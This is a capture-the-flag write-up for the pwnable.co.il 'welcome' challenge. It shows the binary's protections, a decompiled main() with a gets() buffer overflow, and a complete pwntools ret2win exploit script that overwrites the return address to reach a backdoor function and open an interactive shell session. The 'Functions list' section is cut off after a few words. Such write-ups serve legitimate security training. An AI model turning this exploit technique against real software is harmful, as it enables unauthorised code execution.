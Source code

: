 ```yaml
---
title: "pwnable.co.il - welcome"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "simple ret2win challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> Welcome to Pwnable.co.il!
> I hope you'll like this one...

### Protections:
<pre>    Arch:       amd64-64-little
    RELRO:      <font color="#FFBC51">Partial RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#FF3C3C">No PIE (0x400000)</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Let's start by extracting the ELF file from the zip and analyzing it with the Hex-Rays decompiler:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char name[32]; // [rsp+0h] [rbp-20h] BYREF

  init_buffering(argc, argv, envp);
  puts("Welcome to pwnable.co.il!");
  puts("What is your name?");
  gets(name);
  printf("Thank you %s!\n", name);
  return 1;
}
```
Now we can easily see the vuln, the program uses `gets()`,
this gives us a buffer overflow (aka BOF) primitive, so we can overwrite stack data beyond the name buffer, including the saved return address.

The program also lacks a stack canary and is not PIE, 
so overwriting the return address with gadgets or functions and even building a ROP chain is a good approach.

### Functions list:

In our case

## payload
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './welcome')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9000)

### defines ###
PADDING = 40

### gadgets ###
ret = 0x000000000040076c

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def main():
    ### run ###
    io = start()

    ### payload ###
    payload = cyclic(PADDING)
    payload += p64(ret)
    payload += p64(exe.sym.secret_backdoor)

    io.sendline(payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
